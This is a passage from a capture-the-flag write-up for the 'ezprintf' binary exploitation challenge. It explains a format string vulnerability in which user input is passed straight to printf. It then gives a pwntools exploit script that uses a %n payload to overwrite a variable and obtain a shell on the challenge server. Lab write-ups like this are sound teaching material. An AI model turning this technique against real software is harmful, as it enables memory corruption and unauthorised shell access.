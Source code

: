 **Flag:** `HATS{vm_r3_15_fun_r19h7?}`

## ezprintf (pwn)

> Printf is wonky. Time to exploit its wonkyness.
> `nc challs.hats.sg 1304`
>
> **Reading material:** https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/HATS%20CTF/Binary%20Exploitation/ezprintf%20%5B496%5D){: .btn .btn--primary}

**Solution**

This challenge is a standard format string challenge. 

Here's the simplified decompilation of **main**:
```c
  magic = 0;
  read(0,input,0x400);
  printf(input);
  if (magic != 0) {
    system("/bin/sh");
  }
```

Obviously, the line `printf(input);` contains a format string vulnerability. The format string argument was missing from `printf`, which could be exploited to print and overwrite addresses on the stack.

The objective of the challenge was to overwrite the value of `magic`, which would instantly give us a shell. However, the address of `magic` which was `0x0060106c`, contained a null byte, which would cause `printf` to stop "executing" our payload once the null byte was reached.

To overcome this, the address of `magic` can be placed last in the payload. We can use the format specifier `%15$n` to overwrite `magic`, where `magic` is the 15th value on the stack to be printed. This ensures `magic` is overwritten before the null byte is reached.

The payload contains the following:
1. `"%x "*21`: Prints the first 21 arguments on the stack in hex. It allows us to locate the address of `magic` in the stack after including it in our payload.
2. `"%15$n "`: The format specifier `%n` overwrites the next address on the stack with the number of bytes printed. This is used to overwrite `magic` with the number of bytes currently printed.
3. `"BBB"`: This is used to align stack, ensuring the address of `magic` isn't split up.
4. The address of `magic`.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./ezprintf",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1304,
}

def exploit(p):
	magic = elf.symbols['magic'] #0x0060106c
	
	payload = "%x "*21 + "%15$n "
	payload += "BBB" + p64(magic)

	sl(payload)
```